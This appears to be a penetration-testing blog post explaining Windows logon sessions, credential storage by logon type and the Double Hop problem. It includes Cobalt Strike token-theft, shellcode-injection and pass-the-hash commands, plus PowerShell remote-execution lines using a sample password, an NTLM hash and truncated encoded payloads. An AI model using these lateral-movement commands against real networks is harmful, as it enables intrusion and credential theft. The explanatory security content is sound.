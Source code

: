 ```yaml
---
title: Windows Credential Management, Logon Sessions and the Double Hop Problem
---
```


I wanted to provide a quick overview on Windows credential management in relation to penetration testing, why passwords are not always stored in memory and the Double Hop problem.

Windows creates a [logon session](https://docs.microsoft.com/en-us/windows/desktop/SecAuthN/lsa-logon-sessions) upon a successful authentication. Each logon session will be backed by several authentication packages. These authentication packages store the credential material. The logon type and protocol will determine what credential material gets stored.

All processes and threads have an access token that is tied to a logon session. If a process or thread wants to execute in a different security context than it must acquire the appropriate access token. This concept is called impersonation.

During a Network logon (type 3 - e.g. WMI, PsExec, SMB, etc) the client proves they have credentials but does not send them to the target. A logon session is created but no sensitive credential material will exist on the target. Processes or threads which have an access token tied to this logon session **will not** be able to authenticate to network resources within the context of the user. This is often termed the Double Hop problem.

During an Interactive (local console) or Remote Interactive (RDP) logon (types 2 and 10 respectively) the client sends the credentials to the target. The credentials are now stored within the credential material of an authentication package for that logon session. Processes or threads which have an access token tied to this logon session **will** be able to authenticate to network resources within the context of the user.

On a side note, if you have even wondered how the Mimikatz _sekurlsa::logonpasswords_ command works, it iterates over all logon sessions and dumps the credential material in each default authentication package.

You can solve the Double Hop problem by acquiring an access token for a logon session (impersonating) or injecting code into a process that contains the required access token. In Cobalt Strike this would be the commands:

```plaintext
steal_token [pid] inject [pid] \<x86|x64\> [listener] shinject [pid] \<x86|x64\> [/path/to/shellcode.bin] spawnu [pid] [listener]
```


If no logon sessions exist with the credential material you require, you can create one using the Cobalt Strike commands:

```plaintext
make_token [DOMAIN\user] [password] pth [DOMAIN\user] [HASH] spawnas [DOMAIN\user] [password] [listener]
```
Lastly you can directly pass the credentials to the tool performing the network operations like so:

```


```powershell
$pass = ConvertTo-SecureString 'Winter2019' -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential('DOMAIN\Account', $pass);
Invoke-WmiMethod -Credential $cred -ComputerName "Target" win32_process -name create -argumentlist 'powershell -ep bypass -noP -enc JABjACAAPQA...'

Invoke-Command -Credential $cred -ComputerName "Target" -ScriptBlock {powershell -ep bypass -noP -enc JABjACAAPQA...} 
# https://github.com/Kevin-Robertson/Invoke-TheHash 
Invoke-SMBExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose 

Invoke-WMIExec -Target Target -Domain DOMAIN -Username Account -Hash FFB91205A3D288362D86C529728B9DC0 -Command "powershell -ep bypass -noP -enc JABjACAAPQA..." -Verbose
```

Hopefully this gives you a better understanding of when you are allowed to authenticate to network resources during a penetration test.
